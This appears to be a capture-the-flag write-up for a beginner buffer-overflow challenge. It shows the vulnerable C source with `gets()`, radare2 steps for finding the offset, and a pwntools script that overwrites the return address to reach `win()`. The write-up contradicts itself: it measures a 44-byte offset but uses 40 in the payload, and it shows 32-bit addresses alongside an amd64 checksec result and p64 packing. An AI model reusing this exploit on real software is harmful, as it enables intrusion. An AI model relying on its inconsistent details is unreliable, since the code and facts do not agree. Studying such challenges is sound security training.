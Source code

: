 # 🔓 Exploiting `vuln` – Buffer Overflow to `win()`

## 📁 Challenge Overview

This challenge presents a classic **buffer overflow** vulnerability. Your objective is to **redirect execution to a hidden `win()` function** by overflowing the buffer in the `vuln()` function.

---

## 🔍 Source Code Analysis

```c
#define BUFSIZE 32

void win() {
  char buf[64];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,64,f);
  printf(buf); // Potential format string too!
}

void vuln() {
  char buf[BUFSIZE];
  gets(buf);  // <-- Vulnerable function (no bounds checking)

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

### ⚠️ Vulnerability

* The use of `gets(buf)` allows **unbounded input**, which can **overflow the stack**.
* The buffer size is 32 bytes, but the function does **not stop input at 32 bytes**.
* After `buf`, 8 bytes (on 64-bit) are used for saved base pointer (RBP), and then the **return address**.

---

## 🎯 Goal

Redirect execution to the `win()` function:

* Overflow the buffer
* Overwrite the return address with `win()`'s address
* Trigger the code inside `win()` to print the flag

---

## 🧠 Exploit Strategy

### Step-by-step:

1. **Determine buffer overflow offset**:

we can do this by using ragg2 and wopO tools of r2

```bash
$ ragg2 -P 50 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA
```

```bash
[0x08049281]> db 0x080492be
[0x08049281]> dc
Please enter your string: 
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA
Okay, time to return... Fingers Crossed... Jumping to 0x41415041
INFO: hit breakpoint at: 0x80492be
[0x080492be]> wopO 0x41415041
44
[0x080492be]>
```

here we can see that the buffer and the rerturn address is 44 bytes away


2. **Locate `win()` address**:
   Use `elf.symbols['win']` to get the actual address


3. **Return address overwrite**:
   
```python
payload = b'A' * 40 + p64(win)
```

---

## 🧪 Exploit Script (Python)

```python
from pwn import *

elf = context.binary = ELF('./vuln')
context.log_level = 'debug'

LOCAL = True  # Set False for remote

if LOCAL:
    p = process(elf.path)
else:
    p = remote('rescued-float.picoctf.net', 60937)

# Step 1: Find win() address
win = elf.symbols['win']
log.info(f"win() address: {hex(win)}")

# Step 2: Overflow buffer and overwrite return address
payload = b'A' * 40 + p64(win)

# Step 3: Send payload and interact
p.sendlineafter(b"Please enter your string:", payload)
p.interactive()
```

---

---

## 🛡 Protections

Check with `checksec ./vuln`:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE
```

* ✅ No canary – overflow is possible
* ✅ NX enabled – shellcode injection blocked, but ROP is fine
* ✅ No PIE – binary addresses are static, making exploitation easy

---

## ✅ Exploitation Result

![result](./img/result.png)


---

## 📚 Summary

| Component     | Description                       |
| ------------- | --------------------------------- |
| Vulnerability | `gets()` → buffer overflow        |
| Goal          | Call `win()` to print flag        |
| Technique     | Overflow + return address rewrite |
| Difficulty    | Beginner (Classic BOF)            |

---

